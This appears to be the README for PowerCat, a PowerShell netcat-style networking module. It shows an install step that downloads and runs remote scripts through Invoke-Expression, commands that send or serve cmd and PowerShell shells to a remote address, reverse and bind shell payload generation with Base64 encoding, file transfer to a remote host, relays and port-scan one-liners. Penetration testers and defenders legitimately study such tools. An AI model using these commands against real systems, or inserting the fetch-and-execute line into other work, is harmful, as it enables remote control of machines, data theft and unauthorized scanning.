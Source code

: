 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded .psm1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    New-PowerCat
    
    -Listener       # Listen for a connection.                            [Switch]
    -Client         # IPv4 address of a listener to connect to.           [String]
    -Relay          # Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           # Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           # The port to connect to or listen on.                [Int]
    -Execute        # Execute a process.                                  [String]
    -PowerShell     # Execute Powershell.                                 [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
    -Input          # Filepath (string), byte array, or string.           [Object]
    -OutputType     # Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     # Output File Path.                                   [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -Repeat         # Restart after disconnecting.                        [Switch]
    -Payload        # Generate payload.                                   [Switch]
    -Encoded        # Base64 encode payload.                              [Switch]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
```powershell
    # Basic Listener:
    New-PowerCat -Listener -Port 443
        
    # Basic Client:
    New-PowerCat -Client 10.1.1.1 -Port 443
        
    # Basic Client, Output as Bytes:
    New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes
```
File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
```powershell
    # Send File:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    # Recieve File:
    New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
```powershell
    # Serve a cmd Shell:
    New-PowerCat -Listener -Port 443 -Execute cmd
        
    # Send a cmd Shell:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    # Serve a shell which executes powershell commands:
    New-PowerCat -Listener -Port 443 -PowerShell
```
UDP, SMB, and ICMP
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    New-PowerCat -Listener -Port 8000 -Mode Udp
        
    # Send Data Over SMB:
    New-PowerCat -Listener -Mode Smb -PipeName PowerCat
    
    # Send Data Over ICMP:
    New-PowerCat -Listener -Mode Icmp
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # TCP Listener to TCP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay tcp:9000
```
Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCat -Listener -Port 8000 -Execute cmd -Payload -Encoded
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
```
